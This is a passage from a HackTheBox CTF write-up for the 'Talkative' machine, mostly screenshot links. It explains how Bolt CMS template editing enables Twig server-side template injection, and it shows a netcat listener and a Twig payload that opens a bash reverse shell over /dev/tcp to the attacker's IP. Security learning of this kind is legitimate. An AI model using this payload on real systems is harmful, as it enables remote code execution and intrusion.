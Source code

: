 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810172249.png)

**After enumerating at the admin dashboard, I found that we view/edit templates!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810173122.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810173133.png)

In one of those directories, we found the **template engine is Twig**, which is written in PHP.

**According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/bolt-cms), we can achieve RCE via exploiting SSTI (Server-Side Template Injection)!**

- **Find which theme is using:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810174214.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810174223.png)

We found that the theme is **`base-2021`**.

- **Go to the template editor and edit `base-2021/index.twig`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810174414.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810174419.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810174430.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810174445.png)

- **Setup a netcat listener:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.10|17:46:01(HKT)]
└> nc -lnvp 53
listening on [any] 53 ...
```

- **Add the following RCE Twig template injection payload via editing the template:**

{% raw %}
```twig
{{['bash -c "bash -i >& /dev/tcp/10.10.14.6/53 0>&1"']|filter('system')}}
```
{% endraw %}

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810174700.png)

- **Clear the cache so that our modified template will take place:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810174736.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230810174742.png)
